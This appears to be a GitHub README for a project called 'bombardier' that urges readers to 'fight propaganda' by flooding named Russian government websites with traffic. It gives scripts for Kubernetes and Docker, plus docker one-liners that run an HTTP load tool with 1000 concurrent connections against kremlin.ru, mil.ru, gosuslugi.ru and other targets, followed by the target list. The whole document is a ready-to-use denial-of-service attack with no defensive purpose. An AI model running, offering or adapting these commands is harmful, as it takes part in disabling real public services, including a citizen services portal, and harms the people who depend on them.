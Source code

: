 # bombardier
Fight agains propoganda

If you have kubertnetes cluster `./run_all_kuber.sh`
<br>
From local PC `./run_all_docker.sh`
<br>
or easiest way 

`docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l http://kremlin.ru
<br>
docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://mil.ru
<br>
docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l http://www.scrf.gov.ru
<br>
docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://ach.gov.ru
<br>
docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://epp.genproc.gov.ru
<br>
docker run -ti --rm alpine/bombardier -c 1000 -d 60s -l https://www.gosuslugi.ru
`

<br>
sites
https://mil.ru
<br>
http://www.scrf.gov.ru
<br>
https://ach.gov.ru
<br>
https://epp.genproc.gov.ru
<br>
https://www.gosuslugi.ru
<br>
http://kremlin.ru
